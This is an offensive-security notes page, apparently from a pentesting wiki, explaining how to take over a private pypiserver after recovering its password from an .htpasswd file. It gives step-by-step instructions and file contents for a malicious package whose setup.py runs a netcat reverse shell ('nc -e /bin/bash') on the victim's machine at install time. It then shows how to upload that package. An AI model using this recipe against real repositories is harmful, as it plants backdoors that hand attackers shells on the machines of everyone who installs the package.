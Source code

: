 ```yaml
---
title: PyPI Server
category: Software
order: 5
---
```


PyPI Server (pypiserver) is a minimal PyPi compatible server for pip or easy_install.

# What is a PyPI Server?

`pypiserver` is a minimal [PyPI](https://pypi.org) compatible server for `pip` or `easy_install`. It is based on [bottle](http://bottlepy.org) and serves packages from regular directories. Wheels, bdists, eggs and accompanying PGP-signatures can be uploaded either with `pip`, `setuptools`, `twine`, `pypi-uploader`, or simply copied with `scp`.

PyPI Server helps us to create a **Pirvate Python Package Repository.**

# What happens when someone installs from that server and we have the password?

On that moment that we notice that someone installs all packages from the `pypiserver`, and we have the password, we can **upload our malicious python package**.

We will usually find the password inside the `.htpasswd` file from apache or nginx.

## Create our Python Package

Firstly, we need to create a directory with the name of the package, in this example I will use `demo_hacking`.

Navigate into the newly created directory. And create the following files following the hierarchy:

```
demo_hacking
├── demo_hacking
│   └── __init__.py
├── README.md
├── setup.cfg
├── setup.py
└── .pypirc
```

Edit `setup.py` file, in this file we will put our malicious code. At the moment of the installation package our code will execute on victim's machine. This is an example of reverse shell

```
from setuptools import setup
import os
os.system("nc -e /bin/bash ip-addr port") #this is the malicious code
setup(
    name='demo_hacking',
    packages=['demo_hacking'],
    description='Demo H4ck1ng edition',
    version='0.1',
    author='mvc1009',
    keywords=['pip','demo','hacking']
    )
```

Add an example function to `__init__.py`:

```
def print_demo():
    print("Demo Hacking")
```

The `setup.cfg` file lets PyPI know the README is a Markdown file:

```
[metadata]
description-file = README.md
```

Create an empty `README.md` optionally you can create a `LICENSE.txt` file:

```
touch REAMDE.md
touch LICENSE.txt
```

Finally you need to create the `.pypirc` file on the **home** directory:

```
[distutils]
index-servers =
  pypi
  demo
[pypi]
username:
password:
[demo]
repository: http://localhost:port
username: user
password: password
```

> **Hint**: Do not forget that you can change the dome directory path: `export HOME=path`

Finally you need to upload de package to the `pypiserver`.

```
python setup.py sdist upload -r demo
```

# References:

* [https://pypi.org/project/pypiserver/](https://pypi.org/project/pypiserver/)
* [https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/)
